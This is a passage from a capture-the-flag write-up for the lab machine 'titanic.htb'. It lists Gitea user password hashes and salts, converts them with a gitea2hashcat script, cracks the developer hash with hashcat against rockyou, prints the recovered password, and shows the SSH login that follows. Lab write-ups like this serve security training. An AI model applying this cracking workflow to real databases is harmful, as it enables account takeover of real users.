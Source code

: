 {% hint style="success" %}
**administrator user info**:

* Name: administrator
* Email: root@titanic.htb
* Password: cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
* Algo: pbkdf2
* Salt: 2d149e5fbd1b20cf31db3e3c6a28fc9b
{% endhint %}

{% hint style="success" %}
**developer user info**:

* Name: developer
* Email: developer@titanic.htb
* Password: e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
* Algo: pbkdf2
* Salt: 8bf3e3452b78544f8bee9400d6936d34
{% endhint %}

### Crack the pass found

Follow this section to understand the hashcat script:

[#gitea2hashcat](../../../tools/tools/crackthecode/hashcat.md#gitea2hashcat "mention")

{% code overflow="wrap" %}
```bash
python3 gitea2hashcat.py gitea.db

administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
{% endcode %}

copy the output in a file and try to crack them with hashcat

{% code overflow="wrap" %}
```bash
hashcat -m 10900 hashs /usr/share/wordlists/rockyou.txt

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
{% endcode %}

The developer user password has been cracked. Now we can access through SSH as developer.

```bash
ssh developer@titanic.htb
```
